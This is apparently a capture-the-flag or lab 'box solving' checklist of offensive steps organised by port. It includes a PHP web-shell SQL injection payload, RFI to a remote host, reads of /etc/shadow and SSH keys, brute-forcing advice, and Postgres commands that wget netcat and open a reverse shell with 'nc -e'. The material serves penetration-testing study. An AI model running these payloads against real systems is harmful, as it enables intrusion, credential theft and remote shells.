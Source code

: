 # Box Solving Methodology 

## Initial Enumeration
- [ ] Port Scanning
  - Run a vuln scan on all ports using: `nmap -p- -Pn -sCV <host>`
  - Check for the services enumerated by nmap on each port and take notes seperately for each service: `Port 80 - Tomcat 8.x`
  - If version is not enumerated by nmap google the service name and check if it has any publicly available exploits. Like in below example nmap enumerated only `gopher` but not the version, so it's wise to google "Gopher Exploits" and check if there are any prioritise the code execution ones. If any, add it in the notes of respective port. 

    `70/tcp  open gopher`
    
   - Telnet the service to find the exact version and try finding the exploit of that version on Google, Searchsploit etc.
   - Once you are done scanning TCP ports, run UDP scan from nmap for top 100 ports initially as it takes alot of time.

## Port Wise Enumeration
  - **Port 80,443 or anyother webserver port**
     
     - [ ] Run nikto and look for any vulnerabilities flagged like shellshock or CVE: 
     
     `nikto -h <target>:<port>`
     
     - [ ] Run dir search and look for any exposed files. Look into the files and check the content. Your common loot can be Usernames, Passwords(rare), Version of hosted services(most likely), or any other configuration files. If Directory listing is enabled for one of the directories and the service is opensource try looking out the content on github, to see what can be sensitive (to avoid going through each file manually): 
     
     `python3 /path/to/dirsearch/dirsearch.py -u http://target.com -e all -t 400` 
     
     #### Warning: Don't fall for running exhaustive dictionaries at once. Initially just start with the default one. 
       
       - [ ] View page source **on each page** and look for comments, vulnerable plugins and versions of various web technologies like CMS, 3rd party plugins etc.
       - [ ] Manually crawl all the application and take notes of any usernames, IDs etc.
       - [ ] If login portal try below:
          -  SQL injection to bypass auth.
          -  Weak credentials (admin/admin, default creds, generate wordlist with cewl)
       - [ ] If you have found LFI via some exploit, try below:
          - Reading common files like `/etc/passwd` ,`/etc/shadow`, `~/.ssh/authorized_keys` , `/var/lib/samba/private/passdb.tdb`, `/etc/samba/smb.conf` or other files like config, logs etc. Also search for services on that particular box and see if they store user/pass on some common location and try reading them. 
          - Also, extract usernames from `/etc/passwd` and bruteforce ssh/ftp/smb or anyother applicable service using usernames as password and weak passwords like password, admin, etc. Bruteforcing with `rockyou.txt` not recommended unless you feel it is the only way. 
          - Use PHP Wrappers for command execution.
          - Try locating functionality to upload a shell, and access it through LFI.
          - Try escalating to RFI, If yes:
           first generate a simple HTTP request to your owned server to enusre the existence of vulnerability. Once done, we can run arbitrary commands using various payloads:
           
                  - Always use various type of shells, for example in php use different functions like system, shell_exec, popen, passthru to gain shell. (useful resource: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)
                  - Improvise with the server environment and use shells of various languages as well.
                  - Sample command: `http://<target>/sample.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig`
                  - Use curl or web proxies to exploit these kind of vulnerabilities, as sometime application don't throw errors on web browser but errors do come in response of web request.
  
       - [ ] If you got an SQL injection and know the exact path of web root folder, you may get a shell like: ` ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
  URL Encoded: '+UNION+SELECT+("<%3Fphp+echo+passthru(%24_GET['cmd'])%3B")+INTO+OUTFILE+'C%3A%2Fxampp%2Fhtdocs%2Fcmd.php'++--+-'`
     - [ ] Always read an exploit before usage, and use enumerated ports for reverse connections.
     - [ ] Always first confirm exploit with some sort of sanity check like a simple http request and then move towards gaining reverse/bind shell. Try various methods and languages to get shell on the victim machine.
    - [ ] For Node Js application check for eval function by inserting 1+1.
    
- **Port 21 - FTP Enumeration:**
  - [ ]  Anonymous Login (anonymous/anonymous)
  - [ ]  Weak Credentials. Try gathered username, weak passwords etc.
  - [ ]  System File Read/Write
  - [ ]  PUT method allowed? If yes, then find LFI in the web app. Upload the shell via ftp and trigger it from Web.
  - [ ]  CVE


- **Port 22 - SSH Enumeration:**
  - [ ] Weak Credentials. Try gathered username, weak passwords etc.
  - [ ] Credentials Reuse found in earlier part of assessment
  - [ ] OpenSSH 4.x has a CVE where public RSA/DSA keys can be bruteforced if private keys are known, more details on: https://github.com/g0tmi1k/debian-ssh.
  - [ ] CVE
  - [ ] Sensitive Files:
      -  /.ssh/authorized_keys
      - /.ssh/id_rsa
      - /.ssh/id_rsa.pub


- **Port 139,445 - SMB Enumeration:**
  - [ ] SMB share to read sensitive files.
  - [ ] CVE against samba version.
  - [ ] Symlink attack to mount root share on smb share.
  - [ ] Use wireshark to sniff exact Samba version.
  - [ ] Anonymous login. `smbclient -L //192.168.54.122/ -N`
  - [ ] `smbclient \\\\192.168.201.125\\Commander -p 12445` for login into smbshare
  - [ ] Weak Credentials/Credentials Reuse.


- **Port 3306 - MYSQL**
  - [ ] Credential reuse to login into mysql and read database users or create a login as well. Also, shell commands can be run as a result.
  - [ ] `select do_system('id');` to run system commands from mysql shell.
  - [ ] Incase of sql injection: `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'`
  - [ ] If MYSQL is running as root, you can abuse UDF exploit for privelege escalation. (Reference: `https://www.trenchesofit.com/2021/02/15/offensive-security-proving-grounds-banzai-write-up-no-metasploit/)`. While exploiting UDF you may find size smaller than 0 error, i fixed it by changing the binary name.

- **Port 3389 - RDP**
  - [ ]  Weak Creds/ Credential Reuse.

- **Port 69 - TFTP**
  -  requires no pre authentication.
  -  old protocol to read files. Need to convert path to notation 8 in order to work or use `atftp` to get it working.   

- **Port 5432 - POSTGRES**
  - [ ] Default creds are postgres:postgres
  - [ ] We can create table to execute cmd, like below:
    - `CREATE TABLE cmd_exec(cmd_output text);`
    - `COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';`
    - `DELETE FROM cmd_exec;`
    - `COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';`
  - [ ] Else if we can't create table we can read local files and list dirs via:
    - `select * from pg_ls_dir('/tmp');`
    - `select * from pg_read_file('/etc/passwd' , 0 , 1000000);`
  -  Reference: `https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection`


- **Port 27017 - MongoDB**
  - [ ] mongo mongodb://<ip>:<port> - Check for password less login
  - [ ] Commands:
    - `show db`
    - `show table`
    - `db.table.find().pretty()`
    - `db.users.update({_id:ObjectId("5f73c575eae85a15b8df908d"}), {$set: {"password":"1df38cbe202365fc6f2265391ef6aad4e52c7c09ce837bd191e4081b8749e341"}})`
  
